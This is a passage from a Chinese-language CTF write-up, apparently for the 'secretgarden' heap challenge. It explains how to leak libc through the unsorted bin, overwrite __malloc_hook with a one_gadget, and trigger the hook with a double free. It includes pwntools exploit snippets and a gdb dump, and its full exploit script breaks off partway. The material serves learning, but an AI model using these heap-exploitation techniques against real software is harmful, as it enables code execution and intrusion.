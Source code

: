 ```python
add(0x50, "e", "eeee")
add(0x50,"a"*6 + p64(0) + p64(magic) * 2 ,"red") #malloc in fake_chunk

p.interactive()	

```



### 提高 ###

#### leak libc ####

leak libc最简单的方法之一，就是使用unsorted bin攻击，将free后的unsorted bin，直接malloc，这不会改变其中泄漏出的libc地址。通过overlapping，或者修改inuse等辅助变量，也都可能实现leak libc。这里我们使用unsorted bin攻击直接leak libc。

#### 劫持控制流 ####

我们通过复写`__malloc_hook`的got表即可实现利用，在libc上，`__malloc_hook`紧挨着main_arena（已经leak得到main_arena+0x88的地址）。我们仍然通过上述调整偏移的方法，寻找某个`__malloc_hook`之前合法的地址。

```
gef➤  x/32gx 0x7fdaa8a46af0 + 5 - 0x8
0x7fdaa8a46aed <_IO_wide_data_0+301>:	0xdaa8a45260000000	0x000000000000007f
0x7fdaa8a46afd:	0xdaa8707e20000000	0xdaa8707a0000007f
0x7fdaa8a46b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7fdaa8a46b1d:	0x0000000000000000	0x0000000000000000


```

可以看到，当分配到如下地址时，size正好为0x7f，即malloc(0x60)的chunk，然后我们将`__malloc_hook`覆盖为one_gadget即可。

#### 触发__malloc_hook ####

这里如果我们直接调用add功能，而在malloc(0x28)时触发malloc_hook，会发现所有的one_gadget地址都不符合要求。这里我们有一个小trick，如果我们对同一个chunk free两次，触发对double free的报错，这时libc代码也会触发_malloc_hook。

```c++
// 两次free同一个chunk，触发报错函数
// 而调用报错函数的时候又会用到malloc-hook，从而getshell
/* Another simple check: make sure the top of the bin is not the
       record we are going to add (i.e., double free).  */
    if (__builtin_expect (old == p, 0))
      {
        errstr = "double free or corruption (fasttop)";
        goto errout;
			}

```

完整exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./secretgarden")
p = process("./secretgarden")

def add(size, name, color):
	p.recvuntil("choice : ")
	p.sendline("1")
	p.recvuntil("name :")
	p.sendline(str(size))
	p.recvuntil("flower :")
```